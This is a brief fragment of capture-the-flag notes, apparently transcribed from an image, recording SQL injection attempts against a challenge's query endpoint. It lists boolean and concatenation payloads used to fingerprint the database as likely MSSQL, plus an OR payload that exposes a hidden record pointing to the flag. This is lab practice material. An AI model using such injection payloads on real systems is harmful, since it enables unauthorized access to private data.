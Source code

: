 ```
sqli> 128049 or '1'='1'-- -                 # SQL injection work
sqli> 128049 and '11' = concat('1','1')-- -
sqli> 128049 and '11' = '1'+'1'-- -
```

=> could be MSSQL
=> Note: space are all trimmed

```
sqli> '128048' OR (Id=3)-- -
{"data":{"Description":"The FLAG is in other table","Emoji":"\ud83d\udc08\u200d\u2b1b","Id":3,"Name":"secret_cat (hint here)","Unicode":556694539487}}
```

=> Don't know how to get whitespace to work...
